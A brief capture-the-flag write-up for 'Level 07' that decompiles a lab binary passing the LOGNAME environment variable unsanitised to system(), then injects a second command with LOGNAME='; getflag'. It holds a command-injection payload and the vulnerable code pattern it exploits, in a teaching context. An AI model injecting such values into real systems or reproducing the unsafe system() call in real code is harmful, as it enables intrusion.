 # Level 07

We can decompile the file using [dogbolt](https://dogbolt.org) and observe this line.

```c
logName = getenv("LOGNAME");
asprintf(&cmd,"/bin/echo %s ", logName);
return system(cmd);
```

Here we are making a command with `/bin/echo` and the content of the environnement variable LOGNAME and then sending it to system.

We can exploit this by passing multiple commands to system.

```sh
$ LOGNAME="; getflag" ./level07
```
